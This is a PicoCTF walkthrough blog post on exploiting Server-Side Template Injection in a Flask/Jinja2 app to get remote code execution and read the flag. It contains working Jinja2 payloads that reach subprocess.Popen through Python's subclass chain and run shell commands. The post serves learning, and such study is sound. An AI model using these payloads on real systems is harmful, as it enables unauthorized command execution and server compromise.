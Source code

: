 +++
title = "My First SSTI Adventure: A PicoCTF Walkthrough"
description = "A step-by-step journey of exploiting a Server-Side Template Injection (SSTI) vulnerability in a PicoCTF challenge to achieve Remote Code Execution (RCE)."
date = "2025-09-09"
draft = false
tags = ["SSTI", "PicoCTF", "Cybersecurity", "Python", "Jinja2", "RCE"]
+++

I recently dove into the world of Server-Side Template Injection (SSTI) and it was a blast! I decided to tackle a PicoCTF challenge to test my skills, and it turned out to be a fantastic learning experience. Here’s a breakdown of my journey from finding the vulnerability to getting the flag, as it happened.

---

## What is SSTI?

SSTI, or Server-Side Template Injection, is a vulnerability that occurs when an attacker can inject malicious code into a template, which is then executed on the server. This can lead to serious consequences, including Remote Code Execution (RCE), allowing the attacker to run arbitrary commands on the server.

## The Challenge Begins

The PicoCTF challenge presented a simple website with an input field. Whatever I entered was "announced" on a new page. This immediately screamed "template engine" to me.

To confirm my suspicions, I used Wappalyzer, a browser extension that identifies technologies used on websites. It revealed the site was built with **Python 3.8.10** and **Flask 3.0.3**. The most common template engine for Flask is **Jinja2**, so that was my prime suspect.

My first test was to see if the server would execute a simple expression. I entered:

```jinja
{{ 7 * 7 }}
```

The result was `49`. Bingo! This confirmed three things:
1.  The application is vulnerable to SSTI.
2.  The server is using a Python and Flask setup.
3.  The template engine is likely Jinja2.

Now, the real question: could I take this from a simple calculation to full-blown RCE?

---

## The Path to RCE

My goal was to execute shell commands. In Python, the `subprocess.Popen` class is a powerful tool for this. The challenge was to access it from within the restricted Jinja2 template environment.

The standard payload to access subclasses in Python is:

```python
''.__class__.__base__.__subclasses__()
```

This gives you a list of all the classes loaded in the Python environment. I needed to find `Popen` in that list.

### Local Proof-of-Concept

On my local machine, I found that `Popen` was at index `294`. I could then use it to run commands like `id` and `ls -la`:

```python
# Execute 'id'
>>> ''.__class__.__base__.__subclasses__()[294]('id', shell=True, stdout=-1).communicate()

# Execute 'ls -la'
>>> ''.__class__.__base__.__subclasses__()[294]('ls -la', shell=True, stdout=-1).communicate()
(b'total 48\ndrwxr-xr-x@  7 satishpatra  staff   224  4 Sep 23:35 .\n...\n', None)
```

The output of `communicate()` is a tuple `(stdout, stderr)`, and `stdout` is a byte string. To get a clean string, I used `.communicate()[0].decode()` and `print()`:

```python
>>> print(''.__class__.__base__.__subclasses__()[294]('ls -la', shell=True, stdout=-1).communicate()[0].decode())
total 48
drwxr-xr-x@  7 satishpatra  staff   224  4 Sep 23:35 .
...
```

### The PicoCTF Roadblock

When I tried the same payload on the PicoCTF server, I hit a wall.

```jinja
{{ ''.__class__.__base__.__subclasses__()[294]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an "Internal Server Error." Why? The index of `Popen` was different on the server. I was flying blind. I even tried to see what `{{ ''.__class__.__base__.__subclasses__() }}` would return, and I got `<class 'tempfile._TemporaryFileCloser'>`, which was not what I expected. The Python version on the server was `3.8.10`, which was different from my local setup.

My next step was to find the correct index of `Popen` on the target server. I couldn't just print the whole list of subclasses, so I used a loop within the template to search for it:

```jinja
{%- for c in ''.__class__.__base__.__subclasses__() -%}
{%- if 'Popen' in c.__name__ -%}
{{ c.__name__ }} {{ loop.index0 }}
{%- endif -%}
{%- endfor -%}
```

And there it was:

```
Popen 356
```

The index was `356`! I restarted the instance to see if it would change, but it remained the same. This meant I could reliably use this index for my payload.

---

## Victory!

Now, with the correct index, I could craft my final payload. I tried to use `print()` at first, but it kept causing errors:

```jinja
{{ print(''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode())
}}
```

This didn't work. The `format()` method, however, worked like a charm.

My final payload to list the files was:

```jinja
{{ 'Command Output --> {}'.format(''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode()) }}
```

While the output on the page was a bit messy, inspecting the HTML revealed the formatted output:

```html
<!doctype html>
<h1 style="font-size:100px;" align="center">Command Output --&gt; total 12
drwxr-xr-x 1 root root   25 Sep  8 18:44 .
drwxr-xr-x 1 root root   23 Sep  8 18:44 ..
drwxr-xr-x 2 root root   32 Sep  8 18:44 __pycache__
-rwxr-xr-x 1 root root 1241 May  1 15:59 app.py
-rw-r--r-- 1 root root   58 Aug 21 19:26 flag
-rwxr-xr-x 1 root root  268 May  1 15:59 requirements.txt
</h1>
```

I saw a `flag` file! The final step was to read it:

```jinja
{{ 'Command Output --> {}'.format(''.__class__.__base__.__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0].decode()) }}
```

Success! The flag was revealed:

**`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}`**

Decoding the flag gives us "server side template injections are cool." I couldn't decode the `bdc95c1a` part, which might be a hash. This was my first real dive into SSTI, and it was an incredibly rewarding experience. I'm excited to explore this vulnerability further!

---

## Related Posts

*   [Deepening My SSTI Knowledge: From Study to a Root-Me RCE](/post/ssti-study-and-rootme-challenge/)